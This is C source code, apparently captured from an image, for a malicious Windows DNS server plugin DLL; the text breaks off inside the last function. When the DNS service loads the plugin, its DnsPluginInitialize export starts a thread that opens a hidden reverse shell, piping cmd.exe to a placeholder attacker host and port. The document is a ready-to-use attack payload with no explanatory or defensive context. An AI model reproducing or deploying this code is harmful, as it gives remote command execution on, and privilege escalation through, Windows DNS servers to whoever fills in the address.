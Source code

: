 ```
#include "stdafx.h"

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <process.h>
#include <ws2tcpip.h>

#pragma comment(lib, "Ws2_32.lib")

#define REMOTE_ADDR "<LHOST_IP>"
#define REMOTE_PORT "<LHOST_PORT>"

DWORD WINAPI ReverseShell(__in PVOID lpParameter) {
	FreeConsole();
	WSADATA wsaData;
	int iResult = WSAStartup(MAKEWORD(2, 2), &wsaData);
	struct addrinfo* result = NULL, * ptr = NULL, hints;
	memset(&hints, 0, sizeof(hints));
	hints.ai_family = AF_UNSPEC;
	hints.ai_socktype = SOCK_STREAM;
	hints.ai_protocol = IPPROTO_TCP;
	getaddrinfo(REMOTE_ADDR, REMOTE_PORT, &hints, &result);
	ptr = result;
	SOCKET ConnectSocket = WSASocket(ptr->ai_family, ptr->ai_socktype, ptr->ai_protocol, NULL, NULL, NULL);
	connect(ConnectSocket, ptr->ai_addr, (int)ptr->ai_addrlen);
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(si));
	si.cb = sizeof(si);
	ZeroMemory(&pi, sizeof(pi));
	si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_HIDE;
	si.hStdInput = (HANDLE)ConnectSocket;
	si.hStdOutput = (HANDLE)ConnectSocket;
	si.hStdError = (HANDLE)ConnectSocket;
	TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
	CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
	WaitForSingleObject(pi.hProcess, INFINITE);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	WSACleanup();
	return 0;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction) {
	HANDLE h;
	DWORD threadID;
	h = CreateThread(0, 0, ReverseShell, 0, 0, &threadID);
	return ERROR_SUCCESS;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginCleanup() {
	return ERROR_SUCCESS;
}

extern "C" __declspec(dllexport)
DWORD WINAPI DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PVOID ppDnsRecordListHead) {
	return ERROR_SUCCESS;
```